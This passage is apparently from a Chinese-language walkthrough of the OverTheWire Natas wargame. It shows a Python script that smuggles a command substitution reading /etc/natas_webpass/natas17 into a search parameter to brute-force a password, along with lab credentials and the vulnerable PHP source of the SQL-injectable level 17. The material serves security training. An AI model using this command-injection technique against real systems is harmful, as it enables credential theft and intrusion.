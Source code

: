 ```python
        break

print(result)
# bo7LFNb8vwhHb9s75hokh5TF0OC
```

然后稍加修改，往前扫描即可

```python
import requests
from requests.auth import HTTPBasicAuth

dics = "bhjkoqsvwCEFHJLNOT05789"
# combinations = ["".join(pair) for pair in itertools.product(dics, repeat=2)]
result = "bo7LFNb8vwhHb9s75hokh5TF0OC"

while True:
    end_flag = 0
    for i in dics:
        print(i)
        req = requests.post(
            f"http://natas16.natas.labs.overthewire.org/index.php?needle=$(grep {i+result} /etc/natas_webpass/natas17)Africans&submit=Search",
            auth=HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"),
        )

        res = req.text.split("Output:")[1].split("<div")[0].strip().split("\n")[1:-1]
        if res == []:
            result = i + result
            print(result)
            break
        else:
            end_flag += 1
    if end_flag == len(dics):
        break

print(result)
# EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```

## Level 17 → Level 18

```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
```